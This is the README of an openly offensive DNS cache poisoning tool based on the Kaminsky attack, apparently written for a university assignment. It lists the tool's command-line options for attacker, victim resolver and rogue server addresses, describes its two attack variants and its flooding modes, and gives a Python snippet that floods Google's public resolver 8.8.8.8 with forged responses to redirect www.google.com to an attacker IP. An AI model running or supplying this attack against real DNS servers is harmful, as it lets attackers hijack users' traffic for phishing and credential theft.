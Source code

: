 # DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.

Attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/)

**WARNING**: This code is intended to be use only in the contex of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules)

## Requirements
* Scapy (For packet crafting) `pip install scapy`
* Blessing (For coloured terminal) `pip install blessings`
* DNS Python (For initial DNS query)  `pip install dnspython`

Inline requirements installation command pip install:

```pip install scapy blessings dnspython```

## Usage
```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] [-ns NS_SERVER]
               [-i INTERFACE] [-at {NORMAL,DAN}] [-m {NORMAL,FAST}]
               [-vm VICTIM_MAC] [-si SECRET_IP] [-sp SECRET_PORT] [-nc]
               [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```